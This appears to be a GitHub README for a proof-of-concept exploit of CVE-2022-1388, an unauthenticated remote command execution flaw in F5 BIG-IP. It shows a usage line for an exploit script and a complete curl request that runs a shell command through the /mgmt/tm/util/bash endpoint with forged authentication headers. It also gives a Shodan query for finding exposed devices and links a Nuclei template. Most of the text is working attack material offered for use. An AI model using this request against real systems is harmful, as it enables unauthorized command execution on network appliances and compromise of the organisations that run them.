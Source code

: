 # CVE-2022-1388
F5 BIG-IP Unauthenticated RCE   
&nbsp;

## Usage
```bash
python3 CVE-2022-1388.py -t 192.168.0.221 -c id
```
&nbsp;

## POC
Use following POST request to execute ```id``` command.
```
curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Connection: keep-alive, X-F5-Auth-Token' -H $'Authorization: Basic YWRtaW46' -H $'X-F5-Auth-Token: a' -H $'Content-Length: 39' \
    --data-binary $'{\"command\":\"run\",\"utilCmdArgs\":\"-c id\"}' \
    $'https://IP_HERE/mgmt/tm/util/bash'
 ```
 ![poc](./poc.png)
&nbsp;
Key Points:
```
URL: /mgmt/tm/util/bash
Connection: keep-alive, X-F5-Auth-Token
Authorization: Basic YWRtaW46
X-F5-Auth-Token: anything
```
&nbsp;

## How Does It Works
![poc](./how-work.jpg)
&nbsp;

## Shodan Query:
```
http.title:"BIG-IP&reg;-+Redirect" +"Server" 
```
&nbsp;

## Nuclei Template:
[CVE-2022-1388.yaml](./CVE-2022-1388.yaml)
</br>&nbsp;

## Credit
[AnnaViolet20](https://twitter.com/AnnaViolet20/status/1523564632140509184?s=20&t=dA5mPYazYHS6MuaFAaRvCw)'s tweet.</br>
[numanturle](https://github.com/numanturle/CVE-2022-1388)'s github page.</br>
[jas502n](https://twitter.com/jas502n/status/1523611433938059265)' tweet.</br>
[horizon3ai](https://github.com/horizon3ai/CVE-2022-1388)'s github page.
</br>&nbsp;

## Support
You can Follow [me](https://twitter.com/iamfuche) on twitter or buy me a [Coffee](https://buymeacoffee.com/iamfuche)
